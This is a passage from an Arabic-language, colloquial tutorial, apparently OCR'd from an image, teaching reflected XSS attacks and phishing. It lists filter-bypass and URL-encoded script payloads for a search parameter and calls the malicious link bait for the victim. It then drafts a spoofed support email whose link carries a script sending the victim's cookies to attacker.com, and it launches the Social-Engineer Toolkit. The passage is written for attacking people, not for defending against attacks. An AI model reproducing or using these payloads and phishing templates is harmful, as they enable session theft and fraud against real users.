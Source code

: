 ##### **4. Payload لتجاوز الفلاتر:**
لو الموقع بيمنع `<script>`، جرب:
```html
<img src=x onerror=alert('XSS')>
```
- الرابط:
  ```
  example.com/search?query=<img src=x onerror=alert('XSS')>
  ```

أو:
```html
<svg onload=alert('XSS')>
```
- الرابط:
  ```
  example.com/search?query=<svg onload=alert('XSS')>
  ```

##### **5. Payload مشفر (Encoded):**
لو الموقع بيعمل Encode، استخدم URL Encoding:
- Payload:
  ```html
  <script>alert('XSS')</script>
  ```
- بعد الـ Encoding:
  ```
  %3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
  ```
- الرابط:
  ```
  example.com/search?query=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
  ```

##### **6. Payload قصير للـ Phishing:**
لو الرابط طويل، استخدم Payload صغير:
```html
<svg/onload=alert(1)>
```
- الرابط:
  ```
  example.com/search?query=<svg/onload=alert(1)>
  ```

---

**خلاصة بالعامية:**
الرابط الخبيث زي الطُعم اللي هترميه للضحية. لازم تصممه بحيث يكون مقنع ويشتغل بسرعة. لو الموقع حاطط حماية، جرب أكواد غريبة أو مشفرة عشان تخدّعه.

---

#### **الخطوة 3: إعداد حملة Phishing**
عشان تنشر الرابط الخبيث، لازم تعمل حملة **Phishing** مقنعة. هنا الخطوات العملية:

1. **تصميم إيميل أو رسالة Phishing:**
   - اعمل إيميل يشبه الموقع الرسمي، زي:
     ```
     من: support@example.com
     الموضوع: تحديث حسابك ضروري!
     العزيز/ة،
     اضغط على الرابط ده عشان تحدّث بياناتك:
     example.com/search?query=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```
   - استخدم أدوات زي **SET (Social-Engineer Toolkit)**:
     ```
     sudo setoolkit
     ```
